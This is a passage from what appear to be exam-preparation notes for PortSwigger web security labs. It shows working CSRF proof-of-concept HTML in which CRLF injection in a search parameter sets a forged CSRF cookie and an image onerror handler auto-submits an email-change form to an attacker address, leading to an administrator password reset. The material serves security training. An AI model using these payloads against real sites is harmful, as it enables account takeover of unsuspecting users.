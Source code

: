 >Generate CSRF POC, Enable the option to include an **auto-submit** script and click **Regenerate**. Remove the **auto-submit** script code block and add following instead, and place ```history.pushState``` script code below body header. The **onerror** of the IMG SRC tag will instead submit the CSRF POC.  

```
<img src="https://TARGET.net/?search=test%0d%0aSet-Cookie:%20csrfKey=CurrentUserCSRFKEY%3b%20SameSite=None" onerror="document.forms[0].submit()">
```  

>During BSCP **Exam** set the email change value to that of the exploit server ***hacker@exploit-server.net*** email address. Then you can change the administrator password with the reset function.  

![csrf set cookie poc](images/csrf-set-cookie-poc.png)  

>In the below CSRF PoC code, the hidden csrf value is the one generated by the **change email** function and the csrfkey value in the `img src` is the value of the victim, obtained by logging on as victim provided credentials. not sure in exam but real world this is test to be performed.  

```html
<html>
  <body>
    <script>history.pushState('', '', '/')</script>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="hacker&#64;exploit&#45;0a18002e03379f0ccf16180f01180022&#46;exploit&#45;server&#46;net" />
      <input type="hidden" name="csrf" value="48hizVRa9oJ1slhOIPljozUAjqDMdplb" />
      <input type="submit" value="Submit request" />
    </form>
	<img src="https://TARGET.net/?search=test%0d%0aSet-Cookie:%20csrfKey=NvKm20fiUCAySRSHHSgH7hwonb21oVUZ%3b%20SameSite=None" onerror="document.forms[0].submit()">    
  </body>
</html>
```  

[PortSwigger Lab: CSRF where token is tied to non-session cookie](https://portswigger.net/web-security/csrf/bypassing-token-validation/lab-token-tied-to-non-session-cookie)  
  
### CSRF duplicated in cookie  

>In the target we ***identify*** that the CSRF key token is duplicated in the cookie value. Another ***indicator*** is the cookie ```LastSearchTerm``` contain the value searched. By giving search value that contain ```%0d%0a``` we can inject an **end of line** and **new line** characters to create new CSRF cookie and value.  

![set cookie csrf fake](images/set-cookie-csrf-fake.png)  

>In the exploit code ```img src``` tag we set cookie for csrf to fake.  

```html
<html>
  <body>
    <form action="https://TARGET.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="ATTACKER&#64;EXPLOIT-SERVER&#46;NET" />
      <input type="hidden" name="csrf" value="fake" />
      <input type="submit" value="Submit request" />
    </form>
    <img src="https://TARGET.net/?search=test%0d%0aSet-Cookie:%20csrf=fake%3b%20SameSite=None" onerror="document.forms[0].submit();"/>
  </body>
</html>
```  
